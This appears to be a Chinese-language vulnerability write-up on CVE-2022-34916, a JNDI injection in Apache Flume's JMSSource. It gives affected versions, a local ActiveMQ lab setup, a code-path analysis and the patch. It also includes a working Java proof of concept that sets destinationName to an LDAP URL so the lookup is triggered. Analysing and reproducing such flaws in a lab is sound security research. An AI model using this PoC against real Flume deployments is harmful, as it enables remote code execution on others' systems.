








- [CVE-2022-34916 Apache Flume JNDI注入](#cve-2022-34916-apache-flume-jndi注入)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
# CVE-2022-34916 Apache Flume JNDI注入
## 影响版本
< 1.10.1
## 环境搭建
activemq jms:`apache-activemq-5.17.1>bin\activemq start`  
  
## 原理分析
从补丁看和之前的CVE-2022-25167类似。还是JMSSoure支持JNDI配置导致的JNDI注入,不过这次是对destinationName变量使用的协议进行了限制。
  
而触发JNDI注入的位置就在后面。  
  
而destinationName变量的值来自于该类的构造函数。  
  
而漏洞所在的类JMSMessageConsumer没有用public修饰,也就是默认的包内访问权限,包外无法直接访问,创建JMSMessageConsumer类的方法实际在JMSSource类中。  
  
可以看到传入的变量都是来自于JMSSource类自身,同样的该方法也是默认的修饰符,而调用该访问的地方有两个。  
  
所以最后只用JMSSource类调用随意一个即可。  
但要走到JMSMessageConsumer类还需要经过CVE-2022-25167的触发点,首先在这里lookup的结果会转换为jms ConnectionFactory类,所以需要配置一个jms server,initialContextFactory的值也不能是com.sun.jndi.ldap.LdapCtxFactory,不然会ClassCast失败,需要一个jms类型的Factory,可以用org.apache.activemq.jndi.ActiveMQInitialContextFactory。  
  
同时需要满足destinationLocator不为CDI,但其实destinationLocator一共就两个值,一个jndi一个CDI。最后来到漏洞触发点。
  
## 漏洞复现
最后测试的Poc如下:
```java
import org.apache.flume.Context;
import org.apache.flume.channel.ChannelProcessor;
import org.apache.flume.channel.MultiplexingChannelSelector;
import org.apache.flume.source.jms.JMSSource;
import java.util.HashMap;

public class Flume_JNDI_POC {

    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException {
        JMSSource jmsSource = new JMSSource();
        HashMap<String,String> hashMap = new HashMap<>();
        hashMap.put("initialContextFactory","org.apache.activemq.jndi.ActiveMQInitialContextFactory");
        hashMap.put("providerURL","tcp://127.0.0.1:61616");
        hashMap.put("destinationName","ldap://127.0.0.1:1389/m5puzv");
        hashMap.put("destinationType","QUEUE");
        hashMap.put("destinationLocator","JNDI");
        Context context = new Context(hashMap);
        jmsSource.configure(context);
        jmsSource.setChannelProcessor(new ChannelProcessor(new MultiplexingChannelSelector()));
        jmsSource.start();

    }
}
```

## 补丁
同CVE-2022-25167,限制使用的协议只能为java。